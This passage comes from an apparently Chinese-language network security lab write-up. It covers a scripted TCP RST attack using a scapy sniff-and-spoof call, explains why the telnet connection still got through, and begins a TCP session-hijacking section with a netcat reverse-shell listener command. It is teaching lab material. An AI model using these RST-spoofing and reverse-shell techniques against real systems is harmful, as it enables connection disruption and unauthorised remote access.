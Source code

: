 ~~~python
sniff(filter=f,iface=iface, prn=spoof)
#sniff(filter=f, prn=spoof)
#sniff(prn=spoof)
~~~



​		运行reset_auto.py，自动进行RST 攻击。连接还是建立了。



**连接建立的原因**

​		python sniff 后再发包的速度远远小于telnet简历连接的速度，以至于还没有开始进行RST攻击就已经建立好连接了。但是随后一系列的RST包使得连接重叠，这时随便进行一个输入（或者发一个TCP包）都会打断连接。

​		以上猜测可以通过捕获的报文`pcapng\Reset_auto.pcapng` 进行证明。



![image-20230422005128982](pic\image-20230422005128982.png)





### 2.3 TCP会话劫持,实现反弹shell

首先在攻击机上监听一个端口

~~~bash
nc -lvnp 7777
~~~



接着在靶机上运行下列语句(任选其一)，可以看到反弹shell到了自己的攻击机上了
